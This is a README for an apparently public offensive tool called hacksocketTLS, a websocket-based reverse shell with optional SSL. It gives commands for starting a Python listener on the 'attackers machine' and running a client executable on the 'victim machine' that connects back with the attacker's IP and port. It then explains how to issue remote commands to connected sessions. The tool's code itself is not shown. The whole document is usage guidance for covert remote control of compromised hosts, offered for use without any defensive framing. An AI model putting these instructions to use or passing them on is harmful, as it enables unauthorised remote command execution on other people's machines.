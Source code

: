 ```
  _                _                   _        _ _______ _       _____ 
 | |              | |                 | |      | |__   __| |     / ____|
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ | |  | |    | (___  
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|| |  | |     \___ \ 
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ | |  | |____ ____) |
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__||_|  |______|_____/ 
```

A websocket based reverse shell tool.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port] [--ssl]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

Use `sessions` to see all websocket connections.

Use `[id]:[Command]` to run commands i.e. if only one connection then `1:dir` will run dir on the first connection listed in `sessions`.

Use `exit` to end the server or `1:exit` to end the client connection `1`.

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however functionality is hit and miss :P
- Feel free to use and improve. #fixmycode

# Branches:
- plaintext: Plain-text websocket client
- secure/main: SSL websocket client

The python server supports both as detailed using the `--ssl` switch.